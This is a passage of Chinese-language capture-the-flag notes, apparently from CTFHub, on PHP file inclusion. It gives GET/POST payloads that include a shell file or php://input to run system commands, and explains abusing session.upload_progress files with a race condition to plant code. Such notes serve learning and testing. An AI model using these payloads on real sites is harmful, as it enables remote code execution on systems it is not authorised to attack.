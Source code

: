     GET: ?file=shell.txt
    POST: ctfhub=system('ls /');

远程文件包含

    用file包含phpinfo是有回显的，所以构造payload ：
    GET: xxx:10080/?file=php://input
    POST: <?php system('ls');?>

### session.upload_progress.cleanup 相关

https://www.cnblogs.com/afanti/p/9227493.html

设置满足以下条件 
```
session.upload_progress.enabled = on
session.upload_progress.cleanup = on # on 时会自动清空， 需要条件竞争 ，off时不需要
```

当cleanup是off的情况下，构造如下数据包上传文件。

当 session.upload_progress.enabled 开启时，一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。 通常这些键值可以通过读取INI设置来获得

的phpinfo查看 session.save_path 为$path, $path\tmp下生成如下文件，文件名就是sess_加上你的sessionid

`tmp\tmp\sess_5uu8r952rejihbg033m5mckb17`

当session.upload_progress.cleanup=On时，生成的文件会定时清空，不能写入恶意代码，这时候需要条件竞争。

